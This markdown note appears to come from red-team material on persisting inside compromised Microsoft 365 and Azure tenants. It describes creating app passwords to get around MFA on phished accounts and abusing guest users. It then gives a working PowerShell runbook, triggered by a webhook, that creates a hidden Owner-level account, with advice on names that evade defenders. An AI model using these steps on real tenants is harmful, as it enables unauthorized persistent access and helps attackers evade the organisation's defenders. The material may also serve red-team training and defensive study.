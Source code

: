 # Persistence
## 0365 App passwords
- Use case is for apps that can't use MFA
- Perfect scenario if you phish an account with MFA
- Click "Security & Privacy", Then " Additional security verification", then "Create and manage app passwords"
- Click “Create”, give the app password a name, then copy the value.
- This can now be used to access the account using legacy protocols without the MFA requirement

## Guest user accounts
- By default users can add “guest users” from outside the directory
- This provides (at minimum) read access to the directory
- Hybrid deployments may sync from Azure > On-Prem

## Runbooks
- Create a new Automation account with “Create Azure Run As Account” enabled
- Navigate to Azure Active Directory > Roles and Administrators> User administrator
- Click Add Assignments • Search for your new automation account and add it
- Navigate to Subscriptions > subscription name > Access control (IAM)
- Click Add Role Assignment and add the automation account as an “Owner”
- Navigate back to Automation Accounts and select your new account
- Click “Modules Gallery”
- Search for “Az.”
- Import the Az.Accounts module
- Import the Az.Resources module
- Now we need to import the actual runbook
- In the Automation Accounts menu click “Runbooks”
- Click “Import a runbook”
- Save the script below as a ps1 file and modify the “user”, “password”, “Nickname”, and “DisplayName” to whatever you want it to be.
```
Import-Module Az.Accounts
Import-Module Az.Resources
$user = “username@targetdomain.com"
$pass = "BackdoorFTW!!"
$Nickname = "BackupSVC"
$DisplayName = "backup_service"
$connectionName = "AzureRunAsConnection"
$servicePrincipalConnection = Get-AutomationConnection -Name $connectionName
Connect-AzAccount -ServicePrincipal -TenantId $servicePrincipalConnection.TenantId -
ApplicationId $servicePrincipalConnection.ApplicationId -
CertificateThumbprint $servicePrincipalConnection.CertificateThumbprint
$SecureStringPassword = ConvertTo-SecureString -String $pass -AsPlainText -Force
New-AzADUser -DisplayName $DisplayName -UserPrincipalName $user -Password $SecureStringPassword -
MailNickname $Nickname
New-AzRoleAssignment -SignInName $user -RoleDefinitionName Owner
```
- When importing the script set a name to something similar to the standard Automation scripts “AzureAutomationTutorial”
- Set “Runbook Type” to PowerShell and click Create
- After the script is imported navigate to the runbook you just created and click “Webhooks” on the left, then Add Webhook
- Now give the webhook a name that will blend in like “backup”
- Make sure you copy the URL!!! This is the most important step.
- Now if the blue team catches you and cuts off your access you have a backdoor.
- All you have to do now is open a PowerShell terminal and run this to create a brand new Azure account that is owner of the subscription
- ```Invoke-WebRequest -Method Post -Uri <Webhook URL>```
